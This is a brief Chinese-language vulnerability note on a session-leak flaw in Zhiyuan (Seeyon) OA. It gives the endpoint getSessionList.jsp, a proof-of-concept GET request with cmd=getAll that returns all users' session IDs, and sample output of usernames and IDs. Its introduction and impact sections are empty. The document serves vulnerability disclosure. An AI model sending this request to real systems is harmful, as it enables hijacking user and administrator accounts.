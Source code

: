 致远OA Session泄漏漏洞
======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

##### 漏洞位置:

    http://www.0-sec.org/yyoa/ext/https/getSessionList.jsp

##### 漏洞详情:

    当cmd参数为getAll时，便可获取到所有用户的SessionID利用泄露的SessionID即可登录该用户，包括管理员

##### 请求方式:

    Get

##### POC:

    http://www.0-sec.org/yyoa/ext/https/getSessionList.jsp?cmd=getAll

##### 回显内容

    weiph 9EA4F8832FA1C9BA99E3D13E2F01CAF7zhaozy F9244E7F1B8C39BB8919FAE8E19ED16
